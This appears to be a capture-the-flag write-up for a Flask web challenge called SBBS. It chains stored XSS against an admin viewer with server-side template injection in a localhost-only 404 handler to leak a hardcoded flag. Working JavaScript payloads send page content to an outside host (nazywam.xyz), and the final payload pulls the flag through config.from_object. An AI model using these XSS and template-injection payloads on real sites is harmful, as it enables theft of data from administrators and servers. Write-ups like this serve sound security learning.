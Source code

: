 ﻿## SBBS (Web, 250p)
	tl;dr use xss to get a 404 error page and then use template injection to get the flag

We're given the source code of a sever written using flask. The flag is hardcoded into the source but it's not used anywhere, so we either have to steal the source files or somehow extract it from the program.

The site itself allows us to write posts, which are then viewed by the admin. XSS almost immediately comes to mind

A quick check: (You can grab the source code of /catch [here](https://gist.github.com/nazywam/5d164f1969491e2067f17b3c61329040))

```javascript
<script type="text/javascript">
window.open ('http://nazywam.xyz/catch?','_self',false)
</script>
```

Confirms it:

![scr1](scr1.png)

It's worth noticing, that this ip matches the ip of the service, so the admin can access the server locally.

However, we're not able to get the files using that, same-origin-policy prevents us from making a request for the same domain, using a different protocol like "file://"

It turns out that the responses to error messages are vulnerable to a [template injection](http://blog.portswigger.net/2015/08/server-side-template-injection.html)

```python
@app.errorhandler(404)
def not_found(e=None):
    message = "%s was not found on the server." % request.url
    template_string = template % message
    return render_template_string(template_string, title=title_404), 404
```

We have almost complete control over request.url and can inject a template, like `{{ variable }}`

The problem is, `http://52.78.86.97:8080/somepagethatdoesntexist` returns nginx error pages instead of flask ones.

As it later turned out, flask used his error pages only for specified addresses, including 127.0.0.1 ;)

No problem! We use our xss to get the page as localhost:

```javascript
<script>
function hack(url, callback){
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function(){
        if (xmlhttp.readyState == 4){
			window.open ('http://nazywam.xyz/catch?'+xmlhttp.responseText,'_self',false)
        }
    }
    xmlhttp.open("GET", url, true);
    xmlhttp.send();
}

callAjax("/{{ FLAG }}")
 
</script>
```


Unfortunately, we can't acces FLAG directly but only [template globals](http://junxiandoc.readthedocs.io/en/latest/docs/python_flask/flask_template.html#global-variables-within-templates) and they don't have references to app class. 

The breakthrough was finding the function `config.from_object("admin.app")`, with it, we can finally access the FLAG variable.

Because `config.from_object()` only updates `config`, we have to print it separatly, so the final payload is:

`hack("/{{ config.from_object('admin.app') }} {{ config.FLAG }}")`

![scr2](scr2.png)

###Congratz, to the author(s), that was a great chall! If only we got it 4 minutes earlier ;) ###
